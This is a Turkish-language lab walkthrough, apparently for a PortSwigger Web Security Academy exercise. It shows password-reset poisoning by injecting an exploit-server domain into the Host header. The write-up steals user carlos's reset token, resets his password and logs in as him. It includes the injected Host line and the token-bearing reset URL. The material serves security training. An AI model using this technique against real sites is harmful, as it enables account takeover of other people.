 ![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%203.png)

Web uygulamalarında kullanılan framework’ler, belirli bir sayfanın URL'sini oluşturmak için URL oluşturma fonksiyonlarını kullanır. Bu fonksiyonlar genellikle mevcut Host bilgisini de içerir. Dolayısıyla host alanına bize ait olan bir domain yazdığımızda artık gelen e-posta içerisinde bizim yazdığımız domain’in geldiğini görebiliriz. 

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%204.png)

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%205.png)

Lab’ı çözmek için de yapmamız gereken ve bizden istenen şey Exploit Server’ın bize sunduğu domain alanını kullanarak Host header’ını değiştirmek olacaktır. Öncelikle parola sıfırlama için bir Request oluşturarak bunu repeater aracılığıyla düzenleyelim.

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%206.png)

Daha sonra `carlos` kullanıcısı için parola sıfırlama isteği oluşturuyoruz. 

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%207.png)

Repeater aracılığıyla mail adresimizi aşağıdaki gibi carlos olacak şekilde ayarlıyoruz. Host alanına da exploit server için verilen domain’i yazıyoruz. Bu kısımda en önemli bilgi Host alanında verdiğimiz değerin sonuna `?`  koymamızdır. Bunun sebebi ise kalan kısmın query string olarak değerlendirilmesini ve request’in iletilmesiyle ilgili bir sorun yaşanmamasını sağlamaktır. 

```jsx
Host: exploit-0a7200fe046e74d981a72e1201f800aa.exploit-server.net/exploit?
```

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%208.png)

Exploit server log’larını incelediğimizde token’ın elde edildiğini görebiliyoruz bu şekilde;

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%209.png)

Elde ettiğimiz token’ı kullanarak şifre sıfırlama sayfasına gidiyoruz:

```jsx
https://0aa50047047774b681f92f5f009c0089.web-security-academy.net/forgot-password?temp-forgot-password-token=g71132g0ehh9j81736e0mbjhtf3jefft
```

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2010.png)

Yeni şifremizi oluşturuyoruz;

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2011.png)

Şifremizi sıfırladıktan sonra artık carlos kullanıcısı ile sisteme giriş yapabiliriz.

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2012.png)

Ve artık lab çözülmüş oldu…
